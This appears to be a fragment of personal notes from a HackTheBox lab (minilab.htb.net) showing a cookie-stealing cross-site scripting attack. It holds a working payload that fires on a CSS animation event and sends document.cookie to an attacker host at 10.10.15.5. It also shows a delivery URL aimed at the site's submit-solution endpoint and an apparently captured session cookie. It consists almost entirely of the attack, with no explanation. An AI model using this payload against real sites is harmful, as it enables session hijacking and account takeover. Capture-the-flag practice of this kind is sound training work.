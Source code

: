 ___

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.5/index.php?c=' + document.cookie;"></video>
```


http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=ela.stienen@example.com

![[Pasted image 20241012120106.png]]

![[Pasted image 20241012120124.png]]

```
s%3AO4PbaTl4opCjm9WT4XotIl52ANq1lxd1.3pNQfYNO29mEUdBtDgXUKSl7mLk710lSowIOcYMdBz8
```


![[Pasted image 20241012120426.png]]


